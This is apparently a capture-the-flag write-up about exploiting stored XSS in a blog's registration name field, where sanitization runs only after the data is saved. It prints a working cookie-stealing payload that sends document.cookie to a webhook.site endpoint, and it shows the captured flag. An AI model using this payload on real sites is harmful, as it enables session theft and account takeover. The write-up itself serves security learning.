

Exploiting an XSS Vulnerability in a Blog with Moderator Visit Link to heading

In this challenge, we have a blog with a user registration and login system.
We know that the admin (or the moderator bot) will visit our profile when we register and when we post an article.
A source code leak is also available.

Step 1: Analyzing the Source Code Link to heading
Looking at the leaked source code, we notice an attempt at sanitization of the fields, but it is performed after the .save(), meaning that even if an error is displayed, the data is already stored in the database.
The moderator will visit our profile after we create an account and post an article.
Step 2: Testing a Basic XSS Injection Link to heading
I first tried a simple XSS payload:
<script> alert(1) </script>
But an error was displayed:

Step 3: Identifying the Vulnerable Field Link to heading
I tested different payloads by creating multiple accounts to determine which field is exploitable.

After obtaining a registration token, I accessed my profile via /user?token=$token.

Result: An alert(2) is displayed, confirming that the name field is vulnerable.
Step 4: Exploiting the Vulnerability to Steal Cookies Link to heading
Now that we know the name field is exploitable, we will inject an XSS payload to steal the moderator’s cookie.
Payload used:
<script> window.location.href = "https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=" + document.cookie </script>
We register an account with this payload in the name field, and wait for the moderator to visit our profile.
The payload is executed, redirecting to our webhook, which captures the moderator’s cookie.

Step 5: Creating an Article to Finalize the Attack Link to heading
To maximize our chances of execution, we also create a blog post with the same payload.

After a while, we check our webhook endpoint, and the cookie containing the flag is captured!
Webhook URL with the retrieved flag:
https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=FLAG=HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}